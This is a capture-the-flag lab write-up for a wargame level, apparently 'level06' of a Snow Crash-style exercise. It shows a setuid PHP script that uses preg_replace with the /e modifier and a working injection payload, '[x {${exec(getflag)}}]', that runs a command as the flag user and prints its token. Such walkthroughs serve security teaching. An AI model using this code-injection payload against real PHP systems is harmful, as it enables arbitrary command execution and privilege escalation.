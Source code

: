 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

We have an executable and a .php file.

Since we can execute the level06 let's try it.

```bash 
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We see that he expects an argument. Let's try :

```bash 
$ ./level06 coucou
PHP Warning:  file_get_contents(coucou): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

Okay so it waits for a file.
Let's look at the .php file itself.

```bash 
$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

This script reads a file, processes its content through string manipulations, and outputs the modified result.

The  '/e' option in the preg_replace function, allows content  to be evalauted as code, allowing us to execute comnmands.

Same as the previous exercice we are going to inject 'getflag' in script. Only the syntax will change but the principle stays the same.



```bash 
$ echo '[x {${exec(getflag)}}]' > /tmp/coucou 
$ ./level06 /tmp/coucou

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1


````


